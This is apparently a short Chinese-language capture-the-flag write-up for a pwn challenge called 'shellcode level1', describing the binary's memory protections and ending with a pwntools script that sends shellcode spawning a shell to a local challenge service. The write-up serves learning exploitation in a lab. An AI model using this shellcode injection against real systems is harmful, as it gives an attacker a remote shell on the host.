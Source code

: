 ```yaml
---
title: shellcode level1
date: 2023/9/23 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`shellcode_level1`, NX on, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

这次要我们选择内存单元执行，有stack, .bss, heap, mmap页等  
其中mmap分配时0页为rw-，后改为rwx；  
分配1页时为rwx，后改为---

只要输入4即可执行shellcode，同上题

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33251)
sh.sendline(b'4') # mmap paper 0
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
